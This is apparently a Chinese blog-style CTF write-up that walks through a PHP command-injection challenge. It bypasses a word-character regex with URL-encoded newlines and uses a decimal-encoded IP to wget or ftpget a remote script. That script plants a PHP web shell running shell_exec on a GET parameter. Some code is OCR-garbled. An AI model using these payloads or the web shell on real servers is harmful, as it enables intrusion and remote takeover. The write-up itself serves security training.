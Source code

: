 #  CTF分享 | 命令执行-1   
繁星01  安全君呀   2024-08-25 21:37  
  
将  
安全君呀  
设为"星标  
⭐  
️"  
  
第一时间收到文章更新  
  
**声明: 安全君呀 公众号文章中的技术只做研究之用,禁止用来从事非法用途,如有使用文章中的技术从事非法活动,一切后果由使用者自负,与本公众号无关。**  
  
文章声明：本篇文章内容部分选取网络，如有侵权，请告知删除。  
  
1 命令执行  
  
题目源码：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAa7Jria4rVw1CkJoWWdDPat9Z7GvaiaCrt9S4Fkm2QPedsxByNyNia38yUQ/640?wx_fmt=png&from=appmsg "")  
  
代码分析：在目录sandbox下，新建以 IP地址 命名的目录  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAaNxvKhC3fJ9HIl3kBRSYvXsC2PiaCG7JLiaZOKxeo2xjNqY0moBmFPQcA/640?wx_fmt=png&from=appmsg "")  
  
代码分析:   
接受GET方式提交的参数args (数组)匹配数组中每一项是否只由数字、 字母、下划线组成，最后执行/bin/true命令,并且拼接args参数。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAanBicwdMGVzZqa4h1Unmt9O9tqf8cvibgsDy7jk9XfunjotwqLNpRe0qg/640?wx_fmt=png&from=appmsg "")  
  
args=[1,2,3] => /bin/true 1 2 3  
  
题眼  
:  
  
1、根据循环遍历代码: Si=0; Si<count(Sargs); Si++，可知Sargs是一个数组。  
  
2、根据匹配代码: preg_match('/^\w+S/', Sargs[Si) ,可知Sargs中每一项必须只能由数字、字母、下划线组成。必须绕过  
  
3、根据执行代码implode(" ",   
![](https://mmbiz.qpic.cn/mmbiz_svg/47CicbLQOxtWaJ4MxCbiaZxbBm9yaxSsaFUIws5nTrmiaiaU67mcQzqXicw3KyiaNUMiakxiaW7ssDczV6Fy1SFXxbNrGibLekP6tPSDib/640?wx_fmt=svg&from=appmsg "")  
  
args中每一项都使用 " "空格分隔，符合执行多条命令的条件。  
  
那么此时是否可以直接读取flag值? 正则匹配打消念头。另辟蹊径，上传(下载) webshell, 取得无限制的命令执行接口。  
  
题目分析  
:  
  
1、命令换行  
  
两条命令执行，需要由分隔，否则系统无法识别。  
  
\n -> url编码%0a，并且%0a也会绕过 匹配代码。  
  
访问URL: http://ip/?args[]=a%0A&args[]=touch&args]=abc，相当于执行以下shell命令。  
```
/bin/true a
touch abc
```  
  
此时在IP地址命名的目录下，新建了一个abc文件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAaKUaib791hpichwI4UkQF0Y5DGY14j6JW8e12JwibOW8iahLticibZbNp0Qzw/640?wx_fmt=png&from=appmsg "")  
  
2、IP地址匹配  
  
IP地址使用  
点分十进制  
表示，此时程序在匹配过程中，会无法匹配到。因此可以使用  
IP地址的十进制格式绕过匹配  
。  
  
例如:  
  
127.0.0.1 ==> 2130706433  
  
在线转换地址:   
https://www.whois365.com/cn/tools/decimal-ip/encode/127.0.0.1  
  
注意:文件后缀名的   
点   
也会被匹配，因此  
文件后缀名无法出现  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAaDeMUicHb3DwPaEhibd4guYslsZnEV6sBAguDAicbTfGWHzdvzVLjAqU8Q/640?wx_fmt=png&from=appmsg "")  
  
实现：无需文件后缀名即可调用执行相关代码  
  
解题方法:   
wget 或 busybox->ftpget # %0a->换行符  
  
1、上传shell  
```
http:/ /localhost/
?args[0]=x%0a
&args[1] =mkdir
&args [2 ]=abc%0a
&args[3]=cd
&args [4 ]=abc%0a
&args[5] =wget
&args[6]=IP地址%0a

或

http://localhost/?args[ ]=aa%0a&args[ ]=busybox&args[ ]=ftpget&args[]=<IP_IN_ DECIMAL>&args[ ]=script
```  
  
  
2、执行shell  
```
http://localhost/
?args[0]=x%0a 
&args[1]=tar
&args[2]=cvf
&args[3]=aa
&args [4]=abc%0a
&args[5]=php
&args[6]=aa

或

http://localhost/?args[ ]=aa%0a&args[ ]=php&args[ ]=script
```  
  
  
shell代码：  
```
<?php

file_put_contents(' shell.php' , '
	<?php
	header("Content-Type: text/plain");
	print shell_exec($_GET["cmd"]);
	?>

');
?>
```  
  
  
接下来访问abc目录下的shell.php即可对服务器接管, 寻找flag值。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jr5xjApHb7Et4UV1V2xEVsm9zJfWDuAakyNSvz9R5NJ748icEIcYtYONTBDS2gZmQwHC3rKKViasicablVEm6CmmA/640?wx_fmt=png&from=appmsg "")  
  
  
